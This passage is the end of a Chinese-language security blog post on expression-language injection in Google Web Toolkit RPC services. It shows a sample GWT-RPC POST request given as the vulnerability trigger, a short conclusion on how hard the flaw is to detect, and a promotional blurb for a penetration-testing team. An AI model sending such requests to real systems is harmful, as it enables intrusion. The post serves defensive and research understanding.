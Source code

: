 触发语言表达式：

```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: /
X-GWT-Module-Base:
X-GWT-Permutation:
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 171

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|setMibNodesInfo|java.util.List|java.util.ArrayList/3821976829|1|2|3|4|1|5|6|0|
```

[![](./img/199910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t018d36e34615bebb1e.jpg)



## 结论

这一漏洞几乎不可能在黑盒渗透测试中被发现。像burp suite这样的工具不会发现这样的漏洞，尤其是在考虑到字符串储存到seesion中这种情况。

随着网络技术的进步，我们对自动化的依赖越来越大， 在这一领域我们需要更多知识，技能以及工具。<br>
资料参考<br>[http://srcincite.io/blog/2017/05/22/from-serialized-to-shell-auditing-google-web-toolkit-with-el-injection.html](http://srcincite.io/blog/2017/05/22/from-serialized-to-shell-auditing-google-web-toolkit-with-el-injection.html)

[![](./img/199910/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a6af78fb6b1a8088.png)

专注于普及网络安全知识。团队已出版《Web安全攻防：渗透测试实战指南》，《内网安全攻防：渗透测试实战指南》，目前在编Python渗透测试，JAVA代码审计和二进制逆向方面的书籍。

团队公众号定期分享关于CTF靶场、内网渗透、APT方面技术干货，从零开始、以实战落地为主，致力于做一个实用的干货分享型公众号。

官方网站：www.ms08067.com
